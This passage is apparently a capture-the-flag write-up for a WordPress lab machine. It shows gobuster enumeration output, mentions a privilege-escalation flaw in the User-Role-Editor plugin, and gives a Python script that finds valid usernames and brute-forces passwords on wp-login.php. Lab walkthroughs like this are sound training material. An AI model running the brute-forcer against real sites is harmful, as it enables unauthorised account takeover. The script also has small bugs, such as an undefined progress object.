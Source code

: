 ```Console
===============================================================
2022/09/07 18:56:42 Starting gobuster in directory enumeration mode
===============================================================
/wp-content/plugins/akismet/ (Status: 403) [Size: 307]
/wp-content/plugins/hello.php/ (Status: 500) [Size: 0]
/wp-content/plugins/hello.php (Status: 500) [Size: 0] 
/wp-content/plugins/user-role-editor/ (Status: 200) [Size: 0]
                                                             
===============================================================
2022/09/07 18:56:43 Finished
===============================================================
```
User-Role-Editor v4.2.5 is vulnerable to privilege escalation in wordpress.

Author give a clue:
> OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job. cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt That should save you a few years. ;-)

So looks like bruteforcing the login _/wp-admin_.
## Exploitation

First and foremost, let's create the wordlist that author give us. The following is write a script to bruteforce the login. So, first we have to know the valid users and then the password. Usernames wordlist is names.txt of _Seclists_.

```Python
#!/usr/bin/env python

from pwn import *
import requests, sys, signal

url = "http://wordy/wp-login.php"
s = requests.session()

def def_handler(sig, frame):
    print("[!] Aborting...")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def userBruteForce():
    with open("names.txt", "r", encoding = "ISO-8859-1") as f:
        for user in f.readlines():
            post_data = {'log':user,
                        'pwd':'test',
                        'wp-sumbit':'Log+In'}
            r = s.post(url, post_data)
            p1.status(f"Trying user {user}")
            if "Invalid username." not in r.text:
                print(f"[*] Valid username: {user}")
                passwordBruteForce(user)

def passwordBruteForce(user):
    with open("passwords.txt", "r") as f:
        for password in f.readlines():
            post_data = {'log':user,
                        'pwd':password,
                        'wp-sumbit':'Log+In'}
            r = s.post(url, post_data)
            p1.status(f"Trying user {user} with password {password}")
            if "The password you entered for the username" not in r.text and "The password field is empty" not in r.text:
                print(f"[*] Valid Credentials {user}:{password}")
```